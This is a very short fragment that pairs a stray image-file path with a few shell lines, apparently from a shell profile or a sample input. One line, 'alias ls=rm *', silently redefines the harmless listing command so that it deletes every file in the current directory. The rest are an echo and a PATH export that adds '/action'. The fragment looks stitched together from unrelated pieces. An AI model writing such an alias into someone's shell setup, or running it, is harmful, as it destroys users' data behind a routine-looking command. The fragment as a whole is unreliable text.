 alias ls=rm *
echo hello  
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/action
